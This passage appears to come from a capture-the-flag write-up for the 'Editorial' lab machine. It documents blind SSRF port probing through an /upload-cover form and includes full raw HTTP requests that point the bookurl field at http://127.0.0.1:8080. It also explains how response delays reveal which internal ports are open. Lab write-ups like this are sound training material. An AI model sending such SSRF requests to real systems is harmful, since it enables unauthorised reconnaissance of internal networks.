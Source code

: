 ```
-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------72263533922933545642529569388--

```

### Reponse in Full (20000ms Delay)

There was a 20 second delay on the above request. This is usually a sign something is active on the port and its possible to enumeration internal ports blindly by taking advantage of the time delay.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 08:55:21 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 61

/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

# SSRF Test #2 (50ms Delay)

When testing another common web port 8080 it returned almost instantly. This indicates nothing is being hosted on port 8080 internally. 

### Request in Full

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------72263533922933545642529569388
Content-Length: 361
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:8080
-----------------------------72263533922933545642529569388
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------72263533922933545642529569388--
```
